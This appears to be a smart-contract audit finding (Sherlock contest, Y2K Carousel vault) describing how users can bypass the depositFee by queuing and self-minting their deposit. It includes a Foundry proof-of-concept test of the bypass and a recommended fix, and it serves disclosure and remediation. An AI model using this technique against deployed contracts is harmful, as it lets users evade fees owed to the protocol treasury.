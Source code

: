 immeas

medium

# `depositFee` can be bypassed

## Summary
A user can queue and directly mint their queued item into the next epoch instead of depositing and paying `depositFee`

## Vulnerability Detail
When depositing into Carousel a user has to pay a variable fee to `treasury` to tax informational advantage:
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L479-L489

This fee is not payed when queuing though:
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L494-L497

The queue isn't really a queue either but a stack so when queuing the user queuing is guaranteed to be the next one minted:
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L332-L333

The `relayerFee` payed for minting is returned to the minter so a user can simply queue `amount + relayerFee` and then directly mint their own queued item to bypass `depositFee`


PoC test in `CarouselTest.t.sol`:
```solidity
    function testUser2BypassesDepositFee() public {
        uint40 epochBegin = uint40(block.timestamp + 1 days);
        uint40 epochEnd = uint40(epochBegin + 1 days);
        uint256 epochId = 2;
        vault.setEpoch(epochBegin, epochEnd, epochId);

        // just before epoch begins
        vm.warp(epochBegin - 1);

        uint256 amount = 10 ether;

        // user deposits directly and pays fee
        vm.startPrank(USER);
        MintableToken(UNDERLYING).approve(address(vault), amount);
        vault.deposit(epochId, amount, USER);
        vm.stopPrank();

        // user 2 deposits amount + relayer fee in queue, then mints their own position
        uint256 user2Before = IERC20(UNDERLYING).balanceOf(USER2);
        vm.startPrank(USER2);
        IERC20(UNDERLYING).approve(address(vault), amount + vault.relayerFee());
        vault.deposit(0, amount + vault.relayerFee(), USER2);
        vault.mintDepositInQueue(epochId, 1);
        vm.stopPrank();
        uint256 user2After = IERC20(UNDERLYING).balanceOf(USER2);

        // user has to pay fee
        assertLt(vault.balanceOf(USER,epochId),amount);

        // user2 didn't pay any fee
        assertEq(vault.balanceOf(USER2,epochId),amount);
        // since they got their relayer fee back for relaying themselves
        assertEq(user2Before - user2After,amount);
    }
```

Since the requirements for depositing into an epoch and minting a queued deposit into an epoch are the same this can always be done:
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L310-L313
and
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L78-L86

## Impact
A user don't have to pay `depositFee` if they queue and directly mint their position. 

## Code Snippet
See above

## Tool used
Manual Review

## Recommendation
I recommend that instead of storing the `epochId` (which is always 0 anyways) on the `QueueItem` store `block.timestamp`.
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L495-L497

Then when minting deposits, compare the timestamp to `epochCreated`/`epochBegin` of the epoch minted into, if within, apply `depositFee`.